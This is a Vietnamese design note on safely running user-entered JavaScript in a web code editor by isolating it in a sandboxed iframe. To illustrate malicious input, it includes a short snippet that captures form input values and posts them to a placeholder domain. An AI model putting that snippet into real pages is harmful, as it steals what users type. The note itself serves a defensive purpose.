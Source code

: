 # Execute Code

Phần này mô tả các vấn đề và cách thực hiện run code của user nhập vào textarea.

### Một số vấn đề gặp phải

1. Code của user có thể bị lỗi syntax dẫn đến crash app.

Ví dụ: `console.abc();`

2. User có thể thêm các dòng code để thay đổi cấu trúc DOM, nó cũng có thể gây crash app

Ví dụ: `document.body.innerHTML = ""`;

3. Đoạn code user thêm vào có thể chứa mã độc, nhằm đánh cắp thông tin hoặc các mục đích khác.

Ví dụ:

```
document.querySelector('input').addEventListener('change', event => {
    axios.post('some-domain.com', {
        value: event.target.value
    })
})
```

### Cách khắc phục

Tham khảo các website edit code online như `codesandbox`, `codepen` thì tại component hiển thị code người ta sử dụng một thẻ `iframe` để hiển thị code của user nhập vào.

Thẻ `iframe` tạo ra một document khác bên trong document hiện tại, 2 context này thực thi code javascript độc lập với nhau.

Tuy nhiên, giữa document cha và thẻ iframe vẫn có thể tương tác được với nhau khi thoả 2 điều kiện sau:

1. Thẻ `iframe` có KO có attribute `sanbox` hoặc có giá trị `sanbox="allow-same-origin"`
2. Parent HTML và iframe có chung Domain, Port và Protocol (http hoặc https);

Cách tương tác như sau:

- Trong thẻ `iframe`, sử dụng biến global `parent` để tham chiếu đến window object của document cha.
- Trong document cha, query đến element iframe và access vào thuộc tính `contentWindow` để tham chiếu đến window object của iframe.

Khi sử dụng iframe, các vấn đề ở trên đều được giải quyết bởi vì tất các code Javascript được thực hiện ở iframe và không liên quan đến parent document.

### Lưu ý khác

Để iframe có thể nhận được code Javascript từ document cha, sử dụng thuộc tính `srcDocs` của iframe element, đồng thời set giá trị của thuộc tính `sandbox="allow-scripts"`
